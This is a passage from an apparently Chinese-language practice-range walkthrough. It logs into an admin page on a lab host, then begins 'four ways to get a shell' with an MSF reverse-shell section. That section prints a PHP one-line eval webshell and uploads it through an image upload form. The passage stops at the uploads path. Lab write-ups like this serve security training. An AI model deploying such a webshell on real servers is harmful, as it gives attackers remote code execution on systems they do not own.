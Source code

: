 ## 2.6 超级用户登录

用我们刚才得到的账户和密码进行登录

跳转到了下列网址

```
http://192.168.81.144/welcomeadmin.php
```

进去发现我们可以上传图片和文件

![image-20220318112232354](靶场练习.assets/image-20220318112232354.png)

# 3.getshell的4种方法

## 3-1 MSF反弹shell

### 3-1.1 上传木马文件

一句话木马

```
<?php @eval($_POST["xxb"]);?>
```

保存的文件名为xxb.php

点击 **Upload Image**进行上传

上传后得到路径

```
http://192.168.81.144/uploads
```
